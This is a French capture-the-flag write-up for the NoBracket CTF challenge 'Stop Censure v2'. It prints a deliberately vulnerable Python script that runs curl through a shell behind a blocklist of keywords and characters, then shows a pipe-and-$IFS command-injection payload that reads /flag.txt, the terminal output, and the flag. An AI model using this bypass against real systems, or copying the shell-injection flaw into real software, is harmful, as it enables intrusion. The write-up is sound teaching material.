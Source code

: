 ```yaml
---

layout: post  
title: Stop Censure v2  
subtitle: Write-Up pour le NBCTF  
tags: [writeup, injection, command, CTF, Moyen]  
comments: true

---
```


Salut à tous ! Dans ce write-up, je vais vous présenter comment j'ai résolu le challenge **Stop Censure v2** du NoBracket CTF. Ce défi est une suite du précédent challenge **Stop Censure**, mais avec quelques ajustements apportés par les administrateurs pour corriger la faille initiale.

## Premier coup d'œil

Le contexte de ce challenge est simple : les administrateurs ont découvert la faille que nous avions utilisée dans **Stop Censure**, et ils l'ont corrigée en ajoutant une liste de mots bannis. Notre mission est de trouver un moyen de contourner cette nouvelle restriction et d'accéder au flag.

Le flag se trouve dans le fichier `/flag.txt`. Nous devons, comme dans la version précédente, soumettre une URL pour vérifier si le site est censuré ou non. Si nous parvenons à contourner les restrictions, nous pourrons lire le contenu de `/flag.txt` pour obtenir le flag.

## Analyse du fichier `censure_v2.py`

En comparant le fichier fourni avec le précédent script **Stop Censure**, plusieurs modifications ont été faites pour renforcer la sécurité. Voici le code de la version 2 :

```python
#!/usr/bin/env python3
import subprocess
import re

# Liste des mots et caractères interdits
forbidden = ["cat", "flag.txt", "&", ";", " "]

# Regex qui détermine les sites légaux
pattern = r'https?://[a-zA-Z0-9.-]+\.nobrackets\.fr(/[a-zA-Z0-9./?%_-]*)?'

# Fonction qui teste si un mot interdit est présent dans l'url
def is_forbidden(url):
    for word in forbidden:
        if word in url:
            return True
    return False

# Fonction de vérification de la légalité d'une url
def is_legal_url(url):
    return re.match(pattern, url) is not None

# Bannière
print("---------------------------------")
print("~~ Ce site est-il légal ? (v2) ~~")
print("---------------------------------")

# Entrée utilisateur
value = input("Entrez un site (eg: https://wiki.nobrackets.fr/) >>> ")

# Vérification que l'entrée utilisateur ne soit pas vide
if not value:
    print("Erreur. Veuillez entrer une URL.")
    exit(-1)

# Vérification si un petit malin essaye de nous attaquer
if is_forbidden(value):
    print("Attaque détectée !")
    exit(-1)

# Vérification de la légalité de l'URL entrée
if not is_legal_url(value):
    print("Erreur. Votre URL est soit mal formatée soit illégale !")
    exit(-1)

# Test de l'existence du site
process = subprocess.run("curl -I "+value, capture_output=True, shell=True)
res = process.stdout
if not res:
    print("Erreur. Le site ne semble pas exister.")
    exit(-1)

# Affichage de l'échange
print("Succès ! Le site est légal et fonctionnel ! Voici ses informations : \n\n")
print(res.decode())
exit(0)
```

### Changements apportés :

1. **Liste des mots interdits** : Le script contient désormais une liste de mots interdits qui inclut `"cat"`, `"flag.txt"`, `"&"`, `";"`, et même un simple espace `" "`. Cela empêche l'utilisation directe de certaines commandes shell qui auraient pu nous permettre de lire le fichier contenant le flag dans la première version.

2. **Vérification stricte** : Si l'URL contient l'un de ces mots interdits, le script affiche un message d'attaque détectée et interrompt l'exécution. Cela complique l'injection de commandes directes comme nous avions pu le faire auparavant.

## Étape 1 : Recherche d'un contournement

Face à ces nouvelles restrictions, j'ai commencé à tester différentes méthodes d'injection de commandes. Sachant que certains caractères comme `&` et `;` étaient bannis, j'ai cherché des séparateurs alternatifs pour exécuter des commandes.

J'ai testé différents caractères séparateurs comme `,` ou `|`. À ce stade, j'ai aussi essayé d'envoyer des commandes comme `echo`, et j'ai remarqué que le séparateur `|` fonctionnait. Cela m'a donné une première piste.

## Étape 2 : Test avec `grep` et `$IFS`

Après avoir validé que le séparateur `|` fonctionnait, j'ai essayé de lancer des commandes plus complexes, en particulier en utilisant `grep`. Cependant, avec l'interdiction de l'espace `" "`, il fallait trouver une autre façon de séparer les arguments des commandes.

C'est là que j'ai utilisé la variable spéciale **`$IFS`** (Internal Field Separator) qui permet de remplacer l'espace. En combinant cela avec `grep`, j'ai réussi à contourner la restriction sur les espaces et à accéder au fichier **`/flag.txt`**. 

Voici la commande finale que j'ai utilisée :

```bash
http://node2.nobrackets.fr/,|grep$IFS''$IFS/fl*
```

## Étape 3 : Résultat et récupération du flag

Cette commande m'a renvoyé le flag ! Voici l'output :

```bash
┌─[lxst@parrot]─[~]
└──╼ $nc node1.nobrackets.fr 21458
---------------------------------
~~ Ce site est-il légal ? (v2) ~~
---------------------------------
Entrez un site (eg: https://wiki.nobrackets.fr/) >>> http://node2.nobrackets.fr/,|grep$IFS''$IFS/fl*
Succès ! Le site est légal et fonctionnel ! Voici ses informations : 


NBCTF{IFS_F0r_th3_W1n!}
```

Le flag était bien caché, mais j'ai réussi à contourner les nouvelles restrictions mises en place !

## Conclusion

Dans ce challenge, la simple liste de mots interdits n'était pas suffisante pour empêcher complètement l'injection de commandes. En utilisant des caractères spéciaux comme le séparateur **`|`** et la variable **`$IFS`**, j'ai pu contourner les restrictions et lire le contenu du fichier `/flag.txt`. 

Merci à **Drahoxx** et **ribt** pour ce challenge amusant et instructif ! J'ai apprécié la réflexion nécessaire pour contourner les protections supplémentaires.

Flag : **NBCTF{IFS_F0r_th3_W1n!}**
